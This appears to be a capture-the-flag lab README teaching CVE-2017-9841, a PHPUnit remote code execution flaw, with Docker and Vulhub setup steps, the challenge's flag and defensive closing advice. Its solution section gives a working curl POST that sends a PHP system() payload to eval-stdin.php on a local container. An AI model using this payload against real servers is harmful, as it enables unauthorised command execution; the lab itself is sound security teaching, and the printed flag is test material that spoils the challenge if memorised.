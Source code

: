# Challenge 6: PHPUnit

## How to Start
```bash
docker compose pull
docker compose up
```

---

## Description
This challenge teaches the user about **CVE-2017-9841**, a vulnerability in PHPUnit that allows **Remote Code Execution (RCE)**.

---

## Solution
1. Use the terminal to locate the vulnerable `eval-stdin.php` file.
2. Exploit it using a `POST` request with a malicious PHP payload.
3. Example command to retrieve the flag:
   ```bash
   curl -s -X POST http://localhost:8050/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php    -d "<?php system('cat /var/www/html/flag.txt'); ?>"
   ```

**Flag:**
```
FLAG{phpunit_pwned_rce}
```

---

## How to Recreate

### 1. Clone Vulhub Repository
```bash
git clone https://github.com/vulhub/vulhub
```

### 2. Navigate to PHPUnit CVE Directory
```bash
cd vulhub/phpunit/CVE-2017-9841
```

### 3. Build and Start Containers
```bash
docker-compose up -d
```

### 4. Create the Flag
```bash
docker exec phpunit_web_1 sh -c "echo 'FLAG{phpunit_pwned_rce}' > /var/www/html/flag.txt"
```

---

## Final Notes
This challenge demonstrates how outdated development dependencies can be exploited for remote code execution.  
Always ensure unused packages like PHPUnit are not exposed in production environments.
